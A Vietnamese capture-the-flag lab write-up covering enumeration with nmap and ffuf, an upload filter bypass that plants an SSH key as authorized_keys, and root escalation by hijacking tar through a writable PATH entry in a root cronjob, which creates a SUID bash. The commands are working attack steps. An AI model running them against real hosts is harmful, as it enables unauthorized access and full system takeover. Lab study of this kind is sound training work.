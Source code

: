 # Offsec Easy Lab Writeup: Enumeration và Privilege Escalation qua Crontab

## Mục tiêu

Lab này tập trung vào kỹ thuật enumeration và leo quyền (privilege escalation) thông qua crontab. Mục tiêu là lấy file `local.txt` và giành quyền root trên host.

## Bước 1: Enumeration

### Quét dịch vụ bằng Nmap

Sử dụng `nmap` để quét các port mở trên host mục tiêu:

```bash
nmap -sC -sV -p- <target_ip>
```

**Kết quả**:

- **Port 21**: Dịch vụ FTP, hỗ trợ đăng nhập `anonymous`.
- **Port 25022**: Dịch vụ SSH.
- **Port 33414**: Dịch vụ web.
- **Port 40080**: Dịch vụ web.

### Kiểm tra các port

1. **Port 21 (FTP)**:
    
    - Thử đăng nhập bằng `anonymous`:
        
        ```bash
        ftp <target_ip> 21
        ```
        
    - Kết quả: Có thể đăng nhập nhưng không thể tải file lên hoặc xuống. Tạm dừng hướng này.
2. **Port 33414 (Web)**:
    
    - Sử dụng `FFUF` để tìm các đường dẫn ẩn:
        
        ```bash
        ffuf -w /usr/share/wordlists/dirb/common.txt -u http://<target_ip>:33414/FUZZ
        ```
        
    - Kết quả: Tìm thấy các endpoint `/help` và `/info`.
    - Truy cập `/help` phát hiện hai endpoint quan trọng:
        - `/file-upload`: Cho phép upload file.
        - `/files`: Liệt kê các file trong thư mục.
3. **Port 40080 (Web)**:
    
    - Dùng `FFUF` để fuzz nhưng không tìm thấy đường dẫn ẩn nào đáng chú ý. Tạm dừng hướng này.

## Bước 2: Khai thác dịch vụ web (Port 33414)

### Kiểm tra endpoint `/files`

- Truy cập `/files` để liệt kê các file trong thư mục của user `alfredo`:
    - Phát hiện file `local.txt` (mục tiêu) và thư mục `.ssh`.
    - Giả định: Web server chạy dưới quyền user `alfredo`, có thể ghi file vào thư mục `.ssh`.

### Upload file vào thư mục `.ssh`

1. **Tạo SSH keypair**:
    
    ```bash
    ssh-keygen -t rsa -f id_rsa
    ```
    
    - Tạo file `id_rsa` (private key) và `id_rsa.pub` (public key).
2. **Thử upload file**:
    
    - Sử dụng `curl` để upload file `id_rsa.pub` vào thư mục `.ssh` với tên `authorized_keys`:
        
        ```bash
        curl -F "file=@id_rsa.pub" -F "filename=authorized_keys" http://<target_ip>:33414/file-upload
        ```
        
    - Kết quả: Thất bại do server chỉ cho phép các định dạng `.txt`, `.pdf`, `.png`, v.v.
3. **Bypass hạn chế định dạng**:
    
    - Đổi tên file `id_rsa.pub` thành `id_rsa.txt`:
        
        ```bash
        cp id_rsa.pub id_rsa.txt
        ```
        
    - Upload lại với tên `authorized_keys`:
        
        ```bash
        curl -F "file=@id_rsa.txt" -F "filename=authorized_keys" http://<target_ip>:33414/file-upload
        ```
        
    - Kết quả: Upload thành công.
4. **Đăng nhập SSH**:
    
    - Sử dụng private key để đăng nhập:
        
        ```bash
        ssh -i id_rsa alfredo@<target_ip> -p 25022
        ```
        
    - Kết quả: Đăng nhập thành công và lấy được file `local.txt`.

## Bước 3: Privilege Escalation

### Kiểm tra crontab

- Đọc file `/etc/crontab` để tìm các cronjob:
    
    ```bash
    cat /etc/crontab
    ```
    
- Kết quả: Phát hiện một script chạy với quyền root mỗi phút một lần:
    
    ```bash
    * * * * * root /home/alfredo/restapi/backup.sh
    ```
    

### Phân tích script `backup.sh`

- Đọc nội dung script:
    
    ```bash
    cat /home/alfredo/restapi/backup.sh
    ```
    
- Nội dung script sử dụng lệnh `tar` với wildcard (`*`) và export một đường dẫn vào `$PATH`:
    
    ```bash
    export PATH=/home/alfredo/restapi:$PATH
    tar -zcf /tmp/backup.tar.gz /home/alfredo/restapi/*
    ```
    

### Khai thác lỗ hổng `$PATH`

- Nhận thấy user `alfredo` có quyền ghi vào `/home/alfredo/restapi`. Có thể tạo file `tar` giả mạo để thay thế lệnh `tar` thật.
- Tạo script giả mạo `tar`:
    
    ```bash
    echo -e '#!/bin/sh\ncp /bin/bash /home/alfredo/rootbash\nchmod +4755 /home/alfredo/rootbash' > /home/alfredo/restapi/tar
    chmod +x /home/alfredo/restapi/tar
    ```
    
- Script này sao chép `/bin/bash` thành `rootbash` và thêm quyền SUID.

### Kết quả

- Sau khi chờ khoảng 1 phút, cronjob chạy và tạo file `/home/alfredo/rootbash` với quyền SUID.
- Chạy lệnh để lấy quyền root:
    
    ```bash
    /home/alfredo/rootbash -p
    ```
    
- Kết quả: Lấy được quyền root thành công.
